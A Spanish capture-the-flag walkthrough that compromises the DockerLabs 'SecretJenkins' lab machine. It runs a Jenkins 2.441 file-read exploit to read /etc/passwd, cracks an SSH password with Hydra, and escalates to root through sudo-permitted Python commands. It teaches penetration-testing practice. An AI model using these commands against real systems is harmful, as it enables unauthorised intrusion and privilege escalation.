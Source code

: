 Lo primero que tenemos que hacer, es ir a la pagina de "dockerlabs.es" y bajarnos la maquina "SecretJenkins".
Una vez hecho y COMO SIEMPRE, descomprimimos el archivo, e inicializamos la maquina con el comando:
```
sudo bash auto_deploy.sh secretjenkins.tar
```
Lo primero de todo, tras desplegarse la maquina, es hacer un NMAP. No necesitamos hacer un ARP-SCAN (o NETDISCOVER), porque ya sabemos la IP de la maquina victima.
```
nmap -p- --open -sCV -sS --min-rate 5000 172.17.0.2 -n -Pn -vvv
```
Una vez terminado, vemos que tiene dos puertos abiertos, el 22 (SSH) y el 8080
```
Discovered open port 8080/tcp on 172.17.0.2
Discovered open port 22/tcp on 172.17.0.2
```
Si ponemos en el navegador "172.17.0.2:8080" nos sale una panel de login en Jenkins.
Lo primero que vamos a mirar, es la version de Jenkins que esta corriendo por si es posible que haya alguna vulnerabilidad, y como en la propia pagina no vemos nada, vamos a mirar mediante "whatweb" a ver si conseguimos informacion adicional:
```
whatweb 172.17.0.2:8080
```
Y obtenemos informacion que nos dice que es la version 2.441 de Jenkins.
Ahora es momento de usar a nuestro amigo Google o de buscar en "searchsploit" por si hubiese alguna vulnerabilidad:
```
searchsploit jenkins 2.441
```
Y obtenemos:
```
------------------------------------------------ --------------------------------
 Exploit Title                                  |  Path
------------------------------------------------ --------------------------------
Jenkins 2.441 - Local File Inclusion            | java/webapps/51993.py
------------------------------------------------ --------------------------------
Shellcodes: No Results
```
Lo primero que hacemos es un "locate 51993.py" recibiendo como resultado:
```
/usr/share/exploitdb/exploits/java/webapps/51993.py
```
Ahora nos traemos el archivo a nuestro directorio de trabajo y, en mi caso, le cambio el nombre:
```
cp /usr/share/exploitdb/exploits/java/webapps/51993.py .

mv 51993.py jenkis_LFI.py
```
Ahora lo ejecutamos pero vemos que no nos sale nada, aunque nos dice que hay que ponerle la "url" para que funcione bien, asi que lo ejecutamos de forma correcta esta vez:
```
python3 jenkis_LFI.py 
usage: jenkis_LFI.py [-h] -u URL [-p PATH]
jenkis_LFI.py: error: the following arguments are required: -u/--url

❯ python3 jenkis_LFI.py -u http://172.17.0.2:8080/
```
Y en esta ocasion todo es correcto, preguntandonos que fichero es el que queremos descargar.

En este caso, lo que hemos escrito ha sido "/etc/passwd", para poder encontrar los usuarios de esta maquina:
```
Press Ctrl+C to exit
File to download:
> /etc/passwd

systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
jenkins:x:1000:1000::/var/jenkins_home:/bin/bash
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:100:102::/nonexistent:/usr/sbin/nologin
root:x:0:0:root:/root:/bin/bash
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
sshd:x:101:65534::/run/sshd:/usr/sbin/nologin
bobby:x:1001:1001::/home/bobby:/bin/bash    <=== Usuario
games:x:5:60:games:/usr/games:/usr/sbin/nologin
pinguinito:x:1002:1002::/home/pinguinito:/bin/bash   <=== Usuario
```
Bien, parece que tenemos dos usuarios: "bobby" y "pinguinito".
Es el momento de probar ambos con HYDRA para ver si nos encuentra las contraseñas de alguno de ellos:
```
hydra -l bobby -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2

[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: bobby   password: chocolate
1 of 1 target successfully completed, 1 valid password found

```
Vemos que con "bobby" nos encuentra una contraseña que es "chocolate" por lo que vamos a entrar por SSH a ver si todo va bien:
```
ssh bobby@172.17.0.2
```
Tras aceptar las "fingerprints" escribiendo "yes" y poniendo la contraseña que hemos obtenido con HYDRA, estamos dentro:
```
bobby@8882fd45974e:~$ whoami
bobby

bobby@8882fd45974e:~$ 
```
Vale, ahora toca intentar una escalada de privilegios, por lo que escribiremos "sudo -l" obteniendo el siguiente mensaje:
```
bobby@8882fd45974e:~$ sudo -l
Matching Defaults entries for bobby on 8882fd45974e:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User bobby may run the following commands on 8882fd45974e:
    (pinguinito) NOPASSWD: /usr/bin/python3
    
bobby@8882fd45974e:~$ 
```
Vemos que podemos ejecutar un archivo de Python como usuario pinguinito, asi que vamos a ejecutar una bash. En mi caso, queria crear un archivo "jenkins.py" pero no he podido porque no tenemos acceso a "nano", asi que lo que he hecho ha sido escribir:
```
sudo -u pinguinito /usr/bin/python3
```
Y ahora si, escribimos:
```
import os
os.system("bash")
```
Y si ahora ponemos "whoami" otra vez, vemos que somos el usuario "pinguinito":
```
pinguinito@8882fd45974e:/home/bobby$ whoami
pinguinito

pinguinito@8882fd45974e:/home/bobby$
```
De nuevo, vamos a poner un "sudo -l" para ver si podemos escalar privilegios asi:
```
pinguinito@8882fd45974e:/home/bobby$ sudo -l
Matching Defaults entries for pinguinito on 8882fd45974e:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User pinguinito may run the following commands on 8882fd45974e:
    (ALL) NOPASSWD: /usr/bin/python3 /opt/script.py
    
pinguinito@8882fd45974e:/home/bobby$
```
Esta vez, vemos que podemos ejecutar el archivo "/opt/script.py" sin contraseña, aun asi, empezaremos por dar permisos escritura al archivo "script.py".
Podriamos poner bien:
```
chmod 744 /opt/script.py
	-rwxr--r-- 1 pinguinito root     272 May 11 08:22 script.py
	
O BIEN:

chmod 777 /opt/script.py
	-rwxrwxrwx 1 pinguinito root     272 May 11 08:22 script.py
```
Independientemente cual elijamos y ya con los permisos necesarios, escribimos:
```
echo 'import os; os.system("bash")' > /op/script.py
```
Lo que sustituira el contenido del archivo por esto que acabamos de introducir.
Por ultimo, ejecutamos el archivo con el comando:
```
pinguinito@8882fd45974e:/$ sudo /usr/bin/python3 /opt/script.py

root@8882fd45974e:/# whoami
root

root@8882fd45974e:/#
```
Y listo, tal y como vemos al poner "whoami", somos el usuario "root", por lo que la maquina estaria terminada.
